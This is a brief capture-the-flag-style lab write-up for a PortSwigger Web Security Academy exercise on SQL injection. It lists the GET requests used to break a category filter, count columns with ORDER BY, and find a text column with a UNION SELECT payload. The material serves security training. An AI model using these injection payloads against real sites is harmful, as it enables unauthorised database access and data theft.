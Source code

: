 #Lab: SQL injection UNION attack, finding a column containing text

#https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

```bash
GET /filter?category=Lifestyle'
```
```bash
GET /filter?category=Lifestyle'--
```
```bash
GET /filter?category=Lifestyle' order by 3--

GET /filter?category=Lifestyle' order by 4--
```
```bash
GET /filter?category=Lifestyle' UNION SELECT NULL,'MnaBNz',NULL --
```
